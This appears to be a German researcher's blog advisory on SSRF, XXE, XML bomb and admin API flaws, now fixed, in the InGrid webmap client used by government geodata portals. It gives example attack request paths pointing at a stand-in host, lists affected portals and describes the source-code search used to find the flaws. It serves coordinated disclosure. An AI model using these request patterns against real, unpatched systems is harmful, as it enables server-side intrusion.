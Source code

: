 ```yaml
---
layout: post
title:  "Mehrere Schwachstellen (SSRF, XXE, XML Bombe, Admin API Zugriff, etc.) im InGrid Framework (ingrid-webmap-client) geschlossen"
datetime: 2021-10-27 20:00:00 MEST
last_modified_at: 2021-11-30 22:30:00 MEST
author: 'psytester'
---
```


Verschiedene Bundesländer- und Bundesportale für (Geo-)Metadaten enthielten einige Schwachstellen im InGrid Framework, die nun gefixt wurden:
- Drei Möglichkeiten einer XXE via SSRF
```
/ingrid-webmap-client/rest/wms/proxy/?url=https://SSRF_IP/xxe.xml
/ingrid-webmap-client/rest/wms/proxy/layers?url=http://SSRF_IP/xxe_layers.xml
/ingrid-webmap-client/rest/search/query?type=services&q=dummy&searchUrl=https://SSRF_IP/xxe_rss_channel_item.xml
```
- XML Bombe via SSRF
- SSRF auf interne Systeme. Zumindest meine Testdatei wird nun nicht mehr ausgegeben, da sie eventuell nicht der erwarteten Struktur entspricht.
- Schreibender Admin Zugriff auf Daten, die unter anderem eine persistente XSS ermöglichen können
- Tomcat Version Disclosure Schwachstelle & Veralteter Tomcat Softwarestand

Details zum hier angesprochenen und zugrunde liegenden InGrid Framework findet man auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu) und der Source Code liegt auf [Github](https://github.com/informationgrid/ingrid-webmap-client)<br>
Es gibt mind. 6 Bundes und Bundesländer Portale, die diese Software einsetzen. Mit der [Google-Suche inurl:ingrid-webmap-client](https://www.google.de/search?q=inurl:ingrid-webmap-client&filter=0) findet man diese 6 Portale:<br>
https://fs.nlphh.de<br>
https://ingrid.s-h.nokis.org<br>
https://metaver.de<br>
https://numis.niedersachsen.de<br>
https://portalu.rlp.de<br>
https://www.kuestendaten.de<br>

Die Kommunikation mit dem verantwortlichen Hersteller und dessen Reaktionsgeschwindigkeit war sehr gut und professionell. Schneller konnte man die Schwachstellen nicht schließen.

# Details

- Betreiber: Verwaltungskooperation Umweltinformationssysteme (VKoopUIS) Projekt Nr. 50: InGrid - Pflege und Weiterentwicklung der InGrid-Softwarekomponenten zum Betrieb von Internetportalen und Metadatenkatalogen
- Beschreibung der InGrid Framework als Power Point Folien vom ITZBund [InGrid-Praesentation-ITZBund_final.ppsx](https://redmine.gdi-de.org/dmsf/files/405/view)
- Korrigierte Versionen: 5.8.6 / 5.9.2 / 5.10.0
- Referenz ChangeLog [5.8.6](https://www.ingrid-oss.eu/5.8.0/about/history.html#version-586) / [5.9.2](https://www.ingrid-oss.eu/5.9.0/about/history.html#version-592) / [5.10.0](https://www.ingrid-oss.eu/latest/about/history.html#liste-der-%C3%A4nderungen)
  - [Feature] [PORTAL] Aktualisierung TOMCAT Version (REDMINE-2926)
  - [Feature] [PORTAL] Verstecken der Tomcat Version in Tomcat Fehlerseiten. (REDMINE-2925)
  - [Bug] [PORTAL] SSRF mit XML External Entity (XXE) Schwachstelle im MapClient beheben (REDMINE-2924)
- Final korrigierte Versionen: 5.8.7/ 5.9.1.2 / 5.9.2.1 / 5.10.0.1 / 5.10.1
- Referenz ChangeLog [5.8.7](https://www.ingrid-oss.eu/5.8.0/about/history.html#version-587) / [5.9.1.2 & 5.9.2.1](https://www.ingrid-oss.eu/5.9.0/about/history.html#version-5921) / [5.10.0.1 & 5.10.1](https://www.ingrid-oss.eu/latest/about/history.html#liste-der-%C3%A4nderungen)
  - [Bug] [Portal] SSRF mit XML External Entity (XXE) Schwachstelle (2) (REDMINE-3161)

# HowTo vulnerability hunting?

Die Frage lautet wie so oft "Wie findet man eigentlich mögliche Schwachstellen?"<br>
In diesem Fall half eine Suche im Sourcecode nach Strings wie "@Path(" und den HTTP Methoden als "@GET"/"@POST"/"@PATCH"/"@PUT"/"@DELETE", den "@QueryParam(", einer "URLConnection" und zu guter Letzt für die XXE nach "XPathFactory".<br>
- Die @Path Treffer in Verbindung mit den HTTP Methoden helfen mir, die möglichen Endpoints zu identifizieren. Hier waren "/admin" Endpoints dabei, die tatsächlich auch schreibenden Zugriff ermöglichten mit "@POST"/"@PATCH"/"@PUT"/"@DELETE".<br>
- Die @QueryParam geben die möglichen Übergabeparameter bei GET Operationen an. Hier waren die Query Parameter "url=meineurl" und "type=services" jeweils Treffer zum Ausnutzen einer SSRF.<br>
- Ein "XPathFactory" deutet auf das Verarbeiten von XML Dokumenten hin. Die betroffenen Java Klassen haben dann gezeigt, welche XML Trees vorliegen müssen, damit sie überhaupt verarbeitet werden.<br>
- Der String "URLConnection" führte zur Klasse HttpProxy mit seinem Aufruf "URLConnection conn = url.openConnection();", wobei diese Komponente die Verbindung als Client aufbaut. Die SSRF Möglichkeit ist gefunden.

# Timeline

2021-10-01 01:00 Uhr Report an metaver.de und das CERT-Bund (Es ist Freitag "Morgen")<br>
2021-10-04 Sourcen des InGrid-webmap-client analysieren und einen eigenen Client compilieren für lokale Tests<br>
2021-10-05 E-Mail mit neuen Details an hinterlegte E-Mail Adresse auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu)<br>
2021-10-05 Rückmeldung bekommen über erste kurzfristige Korrekturen schon am Freitag<br>
2021-10-06 Retest des Fix im develop-Branch / Report neuer Details<br>
2021-10-07 Alle bisher gemeldeten Probleme wurden in einem Nachtest final als gelöst bestätigt<br>
2021-10-27 Erste Veröffentlichung dieses Artikels über die gefixten Schwachstellen<br>
2021-11-09 Beim Review zur Erweiterung des Artikels eine weitere XXE Schwachstelle gefunden und gemeldet<br>
2021-11-11 letzte XXE Schwachstelle als offizielle Update Version verfügbar<br>
2021-11-30 Update dieses Artikels über die gefixten Schwachstellen, inkl. wie ich diese Lücken gefunden habe<br>

# TL;DR
Ziellos im Internet unterwegs gewesen, die vielen APIs vom Bundesministerium [bundDEV](https://bund.dev) entdeckt.<br>
Als Endanwender finde ich das Super Klasse all die APIs zu haben.<br>
Die Orte der E-Ladestationen entlang der Autobahnen oder das deutschlandweite Ladesäulenregister als Karte der Bundesnetzagentur sind noch nicht allen bekannt.<br>
Bei mir um die Ecke gibt's also 3 Ladesäulen, die kennt nicht mal Google....<br>
Die Interpol Fahndungsliste angesehen, rumgespielt, Fehlermeldung bekommen mit der Erkenntnis, das eine MongoDB angebunden ist: `{"name":"MongoError","message":"Regular expression cannot contain an embedded null byte"}`. Alle Datensätze (Stand heute 7684) bekommt man also, wie auch auf der [Interpol Seite direkt angeboten](https://www.interpol.int/How-we-work/Notices/View-Red-Notices) über diese Query-Abfrage: /notices/v1/red?name=.*<br>

Über das Bundesministerium [bundDEV](https://bund.dev) bin ich dann über das [Issue 41](https://github.com/bundesAPI/sofortmassnahmen/issues/41) der Sofortmaßnahmen auf den MetaDaten Portal Verbund [MetaVer.de](https://metaver.de) der Bundesländer Brandenburg, Bremen, Hamburg, Mecklenburg-Vorpommern, Saarland, Sachsen & Sachsen-Anhalt gestoßen. Beim Ansehen des Portals nur zufällig und ohne Absicht einen Aufruf gesehen, der interessant aussah ;-)<br>
Challenge Accepted...

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2021 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
